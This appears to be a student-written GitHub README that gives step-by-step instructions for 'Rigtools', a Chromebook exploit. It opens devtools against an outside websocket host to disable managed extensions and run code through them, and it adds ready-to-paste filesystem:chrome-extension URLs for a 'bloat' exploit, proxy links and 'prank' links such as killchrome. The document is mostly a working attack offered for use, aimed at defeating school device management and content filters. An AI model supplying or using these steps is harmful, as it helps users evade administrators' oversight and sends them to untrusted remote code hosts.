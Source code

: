  **THIS ONLY WORKS FOR CHROMEBOOK,NO WINDOWS OR ANYTHING***
 ***THE ULTIMATE RIGTOOLS GUIDE***
**Rigtools** is an exploit that allows users to run code on extensions, disable extensions, and basically do whatever they want with an extension as long as it has the correct permissions.***IT IS PATCHED ON ALL CHROME VERSIONS 133 AND HIGHER*** =-( But not anymore,'cause I unpatched it! (wink)😧

### How do you use it?

1. Open this link and just leave it alone. (Note: This will not run code it's just there to fix the second page.)
```md
devtools://devtools/bundled/devtools_app.html
```
2. Open this link and go to Network.

```md
devtools://devtools/bundled/devtools_app.html?experiments=true&ws=rig.kxtz.dev/
```
3. Double-Click the black/grey box:
![image](https://github.com/user-attachments/assets/08996bac-ebc1-4526-973d-ea766731cc9e)
![image](https://github.com/user-attachments/assets/f9ae4b07-d3f3-4318-9d63-404b9142e4f0)

4.Wait for a bit...It should open a page that has a lot of red and purple buttons.

5. Click on the button named "Gforms Locked mode".

6.Behold:RIGTOOLS!!! You can disable extensions that you want. (A reminder,These may stop working after a few weeks,you might have to do it again.)

7. Finally,you can run code like "Hello World" or something like that through the extensions.

8.Go to 
```md
https://devtoolbypass.playcode.io/
```
Click "skip intro" and drag the button.
This is a hyperlink to rigtools.(BWAHAHAHAH)


***MORE IMPORTANT INFO***
-(A reminder,These may stop working after a few weeks,you might have to do it again.)
-If GitHub or DevtoolBypass gets blocked,then save this URL by dragging it into your bookmarks bar or print it...just keep it safe!
```
data:text/html;charset=utf-8,devtools://devtools/bundled/devtools_app.html <p> <dev> devtools://devtools/bundled/devtools_app.html?experiments=true&ws=rig.kxtz.dev/%20%20%20%20%20These%20are%20links%20to%20launch%20the%20unblock3r.%20%3Cp%3E%20%3Cdev%3E%20Use%20these%20links%20to%20get%20a%20HYPERLINK,a%20DIRECT%20link%20to%20RigTools%20devtools://devtools/bundled/devtools_app.html%20%3Cp%3E%20%3Cdev%3E%20filesystem:chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/temporary/index.html%20%3Cp%3E%20%3Cdev%3E%20The%20second%20one:%20filesystem:chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/persistent/rigtools.html
```
-They may make your computer a bit laggy,but nothing much,just some distortion of the mouse or something.
-If using a vpn,do not try and test or experiment around with this using "Metasploit" or any "Penetration testing" platforms.
Be careful.That stuff can break your computers.BEWARE OF BROWSERS! 🙂 
If you know what I mean...😏
There is a **real** second version,though.
When you get to the original version,
-Scroll down a bit,until you find a button named "Update Rigtools".Click it.
-After,go to 
```
rigtools.playcode.io
```
and that should work too,as a substitute version.
***If it does not work,drag the "filesystem" url into your bookmarks bar and spam click it!!***

***NEW "BLOAT" EXPLOIT***
```
filesystem:chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/persistent/bloat.html
```
If you drag this into a new tab,it will probably close immediately.
If it doesn't close and you get a cool-looking tab with a smiley
emoticon and the words saying "#disabling... Happy days without blocking am I right"?
Then all you have to do is wait a few minutes and the code is handed you you on
a sliver platter! 🤤

It it does close,then figure out what Control+Shift+T does
or search it up (It closes recently opened tabs)
and open that tab (and,like usual,it will frustratingly 
close by itself)...And ***SPAM*** Control+Shift+T.
It should work! =-)

For more info,about the bloat exploit,go to
```
https://bloatexploit.playcode.io/
```

***RANDOM PRANK*** (DO NOT GO TO THESE LINKS BWHAHAHAHAH)
Really good proxy by Blobby-Boi **XD**
```
https://blobby-boi.github.io/RammerheadPR0XY/
```
Amazing exploit that is so much better than rigtools by me. **>=-)**
```
https://killchrome.playcode.io/
```

For now,this will do...

And now you can do whatever you want on your computer.Use this wisely,and stay on task in class...At lunch,you could be hangin' out in the library with your friends playing bloxd.io or whatever... =-D 🙂 

***MORE STUFF COMING SOON***
-Follow for more exploits,Exploit-Master12 =-) 





